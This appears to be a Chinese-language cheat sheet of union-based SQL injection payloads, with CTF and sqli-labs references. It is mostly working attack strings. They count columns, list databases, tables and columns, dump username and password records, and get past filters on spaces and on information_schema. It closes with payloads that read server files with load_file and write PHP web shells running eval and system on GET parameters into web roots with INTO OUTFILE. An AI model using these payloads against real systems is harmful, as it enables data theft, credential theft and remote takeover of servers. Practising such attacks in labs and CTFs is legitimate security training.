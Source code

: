 union注入:
寻找注入点，判断闭合方式，判断列数，进行函数执行回显。


1. 测试当前表的字段数：+url编码为空格
```
id =1 ' order by 1 --+

id =1 ' order by 2 --+
...
id =1 ' order by 5 --+  //若到5报错，则此表有4个字段
```
如果不能使用orderby，则可以使用groupby来进行判断列数。
<https://blog.csdn.net/qq_37232329/article/details/122586495>


2. 测试回显了的字段：
```
id = -1 ' union select 1,2,3,4 --+

id = -1 union select 1,2,3,4
id = -1 union/**/select 1,2,3,4
前报错，后替换回显1,2,3,4
```
3. 回显信息收集
拿到表所在库名，登录用户名，操作系统等。
```
所有库名
select(group_concat(schema_name))from(information_schema.schemata)
所在库名
database()
```

4. 根据库名回显库中表名：
```
union select 1,2,GROUP_CONCAT(table_name),4 from
information_schema.tables
WHERE table_schema='库名'

union select 1,2,3,GROUP_CONCAT(table_name) from
information_schema.tables
WHERE table_schema=database()

group_concat(table_name) from information_schema.tables where table_schema=database()%23
```

5. 根据表名回显表的字段：
```
select 1,2,3,GROUP_CONCAT(column_name) from information_schema.columns 
WHERE table_name='表名'
```

6. 根据表名，字段，回显纪录：
```
select 1,2,3,group_concat(name,passwd,字段) from 表名
```

^
## **绕过**
空格被过滤
空格过滤可以利用/**/代替空格。

注释符被过滤
将后面的单引|号闭合即可。

or 被过滤，orderby、information_schema都不能用。
查表名使用 select group_concat(table_name),2,3,4 from mysql.innodb_table_stats where database_name=database()

如果information_schema被禁止，通过sys.schema获取当前数据库表名

通过无列名注入获取表group_concat(某一字段所有值)。
```
SELECT group_concat(`1`) from (select 1,2 union SELECT * from dept) as t
这里需要多试几次dept表有几个字段。
如两个字段：
SELECT group_concat(b) from (select 1 as a,2 as b union SELECT * from dept) as t
```
ctf：
<https://www.cnblogs.com/hello-there/p/12918265.html>


^
## **联合注入获取内容或写shell**
```
union select 1,substr((select load_file('/flag')),1,255)
-1' union select 1,group_concat(password) from ctfshow_user5 into outfile '/var/www/html/flag.txt' --+


联合注入前报错后写webshell文件：
写入文件路径为相对路径时，默认写入到数据库所在文件夹中
1111111'union select 1,2,"<?php @eval($_GET['string'])?>" into outfile "1.php" --+
也可以写成绝对路径，此处为Windows的路径
1111111'union select 1,2,"<?php @eval($_GET['1'])?>" into outfile "/var/www/html/1.php" --+
1111111'union select 1,2,"<?php system($_GET['cmd'])?>" into outfile "D:\\web_security\\1.php" --+
相对路径的写法
-14' union select 1,2,"<?php system($_GET['cmd'])?>" into outfile "../../www/sqli/Less-1/2.php" --+
```